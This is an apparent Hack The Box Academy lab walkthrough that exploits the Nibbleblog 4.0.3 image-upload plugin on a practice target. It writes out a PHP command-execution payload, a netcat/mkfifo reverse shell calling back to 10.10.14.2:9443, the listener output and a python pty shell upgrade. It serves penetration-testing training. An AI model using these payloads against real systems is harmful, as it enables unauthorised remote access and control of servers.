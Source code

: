 Nibbles - Initial Foothold

Now that we are logged in to the admin portal, we need to attempt to turn this access into code execution and ultimately gain reverse shell access to the webserver. We know a Metasploit module will likely work for this, but let us enumerate the admin portal for other avenues of attack. Looking around a bit, we see the following pages:
Page 	Contents
Publish 	making a new post, video post, quote post, or new page. It could be interesting.
Comments 	shows no published comments
Manage 	Allows us to manage posts, pages, and categories. We can edit and delete categories, not overly interesting.
Settings 	Scrolling to the bottom confirms that the vulnerable version 4.0.3 is in use. Several settings are available, but none seem valuable to us.
Themes 	This Allows us to install a new theme from a pre-selected list.
Plugins 	Allows us to configure, install, or uninstall plugins. The My image plugin allows us to upload an image file. Could this be abused to upload PHP code potentially?

Attempting to make a new page and embed code or upload files does not seem like the path. Let us check out the plugins page.

https://academy.hackthebox.com/storage/modules/77/plugins.png

Let us attempt to use this plugin to upload a snippet of PHP code instead of an image. The following snippet can be used to test for code execution.
Code: php

<?php system('id'); ?>

Save this code to a file and then click on the Browse button and upload it.

https://academy.hackthebox.com/storage/modules/77/upload.png

We get a bunch of errors, but it seems like the file may have uploaded.
Nibbles - Initial Foothold

Warning: imagesx() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 26

Warning: imagesy() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 27

Warning: imagecreatetruecolor(): Invalid image dimensions in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 117

Warning: imagecopyresampled() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 118

Warning: imagejpeg() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 43

Warning: imagedestroy() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 80

Now we have to find out where the file uploaded if it was successful. Going back to the directory brute-forcing results, we remember the /content directory. Under this, there is a plugins directory and another subdirectory for my_image. The full path is at http://<host>/nibbleblog/content/private/plugins/my_image/. In this directory, we see two files, db.xml and image.php, with a recent last modified date, meaning that our upload was successful! Let us check and see if we have command execution.
Nibbles - Initial Foothold

kappajester83@htb[/htb]$ curl http://10.129.42.190/nibbleblog/content/private/plugins/my_image/image.php

uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)

We do! It looks like we have gained remote code execution on the web server, and the Apache server is running in the nibbler user context. Let us modify our PHP file to obtain a reverse shell and start poking around the server.

Let us edit our local PHP file and upload it again. This command should get us a reverse shell. As mentioned earlier in the Module, there are many reverse shell cheat sheets out there. Some great ones are PayloadAllTheThings and HighOn,Coffee.

Let us use the following Bash reverse shell one-liner and add it to our PHP script.
Nibbles - Initial Foothold

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f

We will add our tun0 VPN IP address in the <ATTACKING IP> placeholder and a port of our choice for <LISTENING PORT> to catch the reverse shell on our netcat listener. See the edited PHP script below.
Code: php

<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?>

We upload the file again and start a netcat listener in our terminal:
Nibbles - Initial Foothold

0xdf@htb[/htb]$ nc -lvnp 9443

listening on [any] 9443 ...

cURL the image page again or browse to it in Firefox at http://nibbleblog/content/private/plugins/my_image/image.php to execute the reverse shell.
Nibbles - Initial Foothold

kappajester83@htb[/htb]$ nc -lvnp 9443

listening on [any] 9443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.129.42.190] 40106
/bin/sh: 0: can't access tty; job control turned off
$ id

uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)

Furthermore, we have a reverse shell. Before we move forward with additional enumeration, let us upgrade our shell to a "nicer" shell since the shell that we caught is not a fully interactive TTY and specific commands such as su will not work, we cannot use text editors, tab-completion does not work, etc. This post explains the issue further as well as a variety of ways to upgrade to a fully interactive TTY. For our purposes, we will use a Python one-liner to spawn a pseudo-terminal so commands such as su and sudo work as discussed previously in this Module.
Code: bash

python -c 'import pty; pty.spawn("/bin/bash")'

Try the various techniques for upgrading to a full TTY and pick one that works best for you. Our first attempt fails as Python2 seems to be missing from the system!
Nibbles - Initial Foothold

$ python -c 'import pty; pty.spawn("/bin/bash")'

/bin/sh: 3: python: not found

$ which python3

/usr/bin/python3

We have Python3 though, which works to get us to a friendlier shell by typing python3 -c 'import pty; pty.spawn("/bin/bash")'. Browsing to /home/nibbler, we find the user.txt flag as well as a zip file personal.zip.
Nibbles - Initial Foothold

nibbler@Nibbles:/home/nibbler$ ls

ls
personal.zip  user.txt

VPN Servers

Warning: Each time you "Switch", your connection keys are regenerated and you must re-download your VPN connection file.

All VM instances associated with the old VPN Server will be terminated when switching to a new VPN server.
Existing PwnBox instances will automatically switch to the new VPN server.


Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): Click here to spawn the target system!

+ 1 Gain a foothold on the target and submit the user.txt flag 

